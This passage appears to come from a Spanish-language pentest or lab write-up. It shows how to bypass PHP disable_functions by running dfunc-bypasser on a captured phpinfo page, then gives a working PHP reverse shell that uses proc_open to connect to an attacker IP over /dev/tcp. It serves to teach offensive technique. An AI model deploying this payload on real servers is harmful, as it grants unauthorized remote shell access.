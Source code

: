 ![image](https://github.com/user-attachments/assets/de932a93-b576-473a-8999-dcfcd970ac27)


Para verificar qué función podemos usar, podemos utilizar la herramienta dfunc-bypasser a la cual podemos pasarle una url con el php.info y te indica de qué función de sistema php puedes abusar para ejecutar comandos:

https://github.com/teambi0s/dfunc-bypasser

Podemos usar la herramienta con el parámetro --file especificando el arhivo info.php. Para ello podemos interceptar la petición con burp y en la respuesta renderizada hacer un copy to file:


![image](https://github.com/user-attachments/assets/30b4dcdc-bc7d-4be2-b205-e952c08ba8cf)


```
dfunc_bypasser --file info.php 
```

![image](https://github.com/user-attachments/assets/9c926934-9389-49fa-8618-b1bd8d6ab636)


La herramienta nos indica que podemos usar proc_open. Para ver cómo usar esta función podemos hacer uso de la documentación oficial:

https://www.php.net/manual/en/function.proc-open.php

Podemos adaptar nuestro archivo .php para que haga uso de esta función y obtener una reverse shell de la siguiente forma:

 reverse shell con proc_open function
```php
<?php  
  
$descriptorspec = [  
  
0 => ["pipe", "r"], // STDIN  
  
1 => ["pipe", "w"], // STDOUT  
  
2 => ["pipe", "w"], // STDERR  
  
];  
  
$command = "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/1234 0>&1'";  
  
$process = proc_open($command, $descriptorspec, $pipes);  
  
if (is_resource($process)) {  
  
fclose($pipes[0]); // Close STDIN  
  
fclose($pipes[1]); // Close STDOUT  
  
fclose($pipes[2]); // Close STDERR  
  
proc_close($process);  
  
}  
  
?>
```
